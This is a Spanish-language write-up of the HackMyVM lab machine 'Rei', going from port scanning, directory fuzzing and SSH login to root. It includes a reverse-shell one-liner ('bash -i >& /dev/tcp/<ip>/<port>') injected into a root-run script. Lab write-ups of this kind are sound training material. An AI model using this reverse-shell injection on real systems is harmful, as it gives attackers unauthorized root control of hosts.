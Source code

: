 ```yaml
---
layout      : post
title       : "Rei - HackMyVm"
author      : elc4br4
image       : assets/images/HMV/Rei-HackMyVM/Rei.webp
category    : [ HackMyVM ]
tags        : [ Linux ]
---
```


En esta ocasión tenemos una máquina nivel Easy creada por ShellDredd, tendremos varios trolleos a lo largo de la explotación y debemos fijarnos y prestar atención a todo.

Canal Shelldredd Informática [https://www.youtube.com/c/ShellDreddInform%C3%A1tica](https://www.youtube.com/c/ShellDreddInform%C3%A1tica)

# Reconocimiento de Puertos

Comenzamos lanzando nmap para descubrir los puertos abiertos en la máquina.

```nmap
PORT      STATE SERVICE
63777/tcp open  unknown
65333/tcp open  unknown
```

Me saca 2 puertos, pero no tengo ni idea de que se ejecuta en los mismos de forma que voy a realizar un escaneo más descriptivo para obtener los servicios que se ejecutan en cada puerto y sus versiones.

```nmap
PORT      STATE SERVICE VERSION
63777/tcp open  http    lighttpd 1.4.59
|_http-server-header: lighttpd/1.4.59
|_http-title: Welcome page
65333/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 25:62:b8:14:da:7d:e9:ea:48:4c:a9:31:08:cd:c5:78 (RSA)
|   256 b8:51:f8:62:de:16:09:d0:f9:a8:2c:c3:3b:09:a1:e3 (ECDSA)
|_  256 f4:f5:6c:ac:81:ed:06:14:ea:07:de:56:ac:34:ca:be (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Una vez finalizado el escaneo ya tengo la información que necesitaba:

| Puerto | Servicio | Versión |
| ------ | -------- | ------- |
| 63777  | http     | lighttpd 1.4.59 |
| 65333  | ssh      | OpenSSH 8.4p1 Debian 5 |


>Tenemos un servidor web en el puerto 63777 
>ssh en el 65333

# Enumeración Web

A simple vista no hay nada relevante o de interés que me pueda servir

![](/assets/images/HMV/Rei-HackMyVM/web1.webp)


Reviso el código fuente y tampoco hay nada.

>Toca fuzzear para descubrir rutas en el servidor.

En esta ocasión uso gobuster bajo el comando:

`gobuster dir -u http://192.168.0.13:63777 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt`

![](/assets/images/HMV/Rei-HackMyVM/gobuster.webp)

Encuentro el robots.txt pero no hay nada...

![](/assets/images/HMV/Rei-HackMyVM/robots.webp)

Tras seguir buscando no encontraba nada asique decidí volver al principio porque me estaba dejando algo...

Me di cuenta tras un buen rato de búsqueda...

Si te fijas en la documentación que hay en la primera foto nada más acceder al servidor web verás la siguiente línea:

> Additional documentation can be found at"text" archive: indexp in the default directory /var/www/html/.

Asique pruebo con la ruta `http://192.168.0.13:63777/indexp.txt`

Me saca un montón de rutas `Disallow` pero varias `Allow`

![](/assets/images/HMV/Rei-HackMyVM/rutas.webp)

Fui vistando cada ruta una a una y todas me daban error 404.

> Excepto la ruta /gichin/your-button que me daba código 403 (Forbidden) al acceder.

De forma que sigo fuzzeando desde esa ruta.

`gobuster dir -u http://192.168.0.13:63777/gichin/your-button -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt`

![](/assets/images/HMV/Rei-HackMyVM/gobuster2.webp)

Y me saca dos rutas: 
* note.html 
* ssh

![](/assets/images/HMV/Rei-HackMyVM/karate.webp)

Simplemente hay un gif, pero miro el código fuente y encuentro la siguiente línea:

>title="ENTER" href="chuck-norris.html"

Tenemos una imágen... Y encontramos algo más

![](/assets/images/HMV/Rei-HackMyVM/chucknorris.webp)

Pero hay que fijarse en todo, ya que la foto nos da varios datos interesantes...

>BALANCE IS KEY

>Chuck Norris is the user master

![](/assets/images/HMV/Rei-HackMyVM/balance.gif)

Podríamos estar ante un usuario y una posible contraseña... Asique porque no probar?

![](/assets/images/HMV/Rei-HackMyVM/karate1.gif)

# SSH 

Nos intentamos loguear con los datos que tenemos por ssh.

![](/assets/images/HMV/Rei-HackMyVM/ssh.webp)

Listo, tenemos acceso a través de ssh y ya podemos leer la flag user.txt, o eso creía...

```ssh
chuck-norris@karate:~$ cat user.txt
                 (__) 
                 (oo) 
           /------\/ 
          / |    ||   
         *  /\---/\ 
            ~~   ~~   
..."Have you mooed today?"...
```
El señor Shelldredd siempre nos tiene algún trolleo guardado en la manga... 

Pero no pasa nada, podemos probar con la ruta de cat o usar strings.

```ssh
chuck-norris@karate:~$ strings user.txt 
Flag User:
******U46AcfI*****
```

# Escalada de Privilegios

Ahora toca escalar privilegios, y como siempre comenzamos enumerando para encontrar posibles vectores de escalada.

Lanzo linpeas.sh pero no veo nada raro... asique paso a lanzar pspy para buscar procesos ocultos en ejecución

Y encuentro lo siguiente

>2022/09/22 12:51:29 CMD: UID=0    PID=10752   (kanga.sh)

Procedo a buscar el archivo...

```bash
chuck-norris@karate:~$ find / -name kanga.sh -type f 2>/dev/null
______________________________
⠄⠄⠄⠄⣠⣴⣿⣿⣿⣷⣦⡠⣴⣶⣶⣶⣦⡀⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄
⠄⠄⠄⣴⣿⣿⣫⣭⣭⣭⣭⣥⢹⣟⣛⣛⣛⣃⣀⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄
⠄⣠⢸⣿⣿⣿⣿⢯⡓⢻⠿⠿⠷⡜⣯⠭⢽⠿⠯⠽⣀⠄⠄⠄⠄⠄⠄⠄⠄⠄
⣼⣿⣾⣿⣿⣿⣥⣝⠂⠐⠈⢸⠿⢆⠱⠯⠄⠈⠸⣛⡒⠄⠄⠄⠄⠄⠄⠄⠄⠄
⣿⣿⣿⣿⣿⣿⣿⣶⣶⣭⡭⢟⣲⣶⡿⠿⠿⠿⠿⠋⠄⠄⣴⠶⠶⠶⠶⠶⢶⡀
⣿⣿⣿⣿⣿⢟⣛⠿⢿⣷⣾⣿⣿⣿⣿⣿⣿⣿⣷⡄⠄⢰⠇⠄⠄⠄⠄⠄⠈⣧
⣿⣿⣿⣿⣷⡹⣭⣛⠳⠶⠬⠭⢭⣝⣛⣛⣛⣫⣭⡥⠄⠸⡄⣶⣶⣾⣿⣿⢇⡟
⠿⣿⣿⣿⣿⣿⣦⣭⣛⣛⡛⠳⠶⠶⠶⣶⣶⣶⠶⠄⠄⠄⠙⠮⣽⣛⣫⡵⠊⠁
⣍⡲⠮⣍⣙⣛⣛⡻⠿⠿⠿⠿⠿⠿⠿⠖⠂⠄⠄⠄⠄⠄⠄⠄⠄⣸⠄⠄⠄⠄
⣿⣿⣿⣶⣦⣬⣭⣭⣭⣝⣭⣭⣭⣴⣷⣦⡀⠄⠄⠄⠄⠄⠄⠠⠤⠿⠦⠤⠄⠄
_________FIND THIS..._________
```
Pero claro, olvidaba que es shelldredd y el trolleo nunca acaba :(

Sigo busando... ya que el pspy no me daba más info pero no encontré nada y volví a lanzarlo y descubrí esto

>2022/09/22 12:58:49 CMD: UID=0    PID=10902  | /bin/bash /lost+found/sakugawa-kanga.sh

Ahí está lo que buscaba

Lo que hay es un simple script en bash, pruebo a meter una shell en bash.

`bash -i >& /dev/tcp/<ip>/<port> 0>&1`

Abrimos un oyente de netcat y tras esperar unos segundos...

![](/assets/images/HMV/Rei-HackMyVM/root2.webp)

Ahora ya podemos leer la bandera root.txt, o eso creía, tonto de mí.

![](/assets/images/HMV/Rei-HackMyVM/root3.webp)

Nos dice lo siguiente 

>Maritrini plays with you, call her by name from the hidden area and maybe she will give you back the password.

Debemos buscar un archivo con el nombre maritrini y tendremos la bandera root.txt

Tras buscar un buen rato lo encuentro en la ruta:

>/mnt/.maritrini


_Agradecimientos a Shelldredd por esta máquina y por el trolleo gratuito_

